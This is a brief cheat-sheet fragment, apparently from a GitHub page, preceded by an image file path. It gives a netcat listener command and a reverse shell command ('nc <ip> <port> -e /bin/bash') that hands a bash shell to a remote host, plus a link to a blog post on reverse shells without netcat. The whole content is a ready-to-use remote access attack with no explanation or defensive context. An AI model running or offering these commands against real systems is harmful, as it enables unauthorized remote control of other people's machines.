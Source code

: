 Listen:
```
nc -nlvp <port>
```
Throw:
```
nc <ip> <port> -e /bin/bash
https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/

```
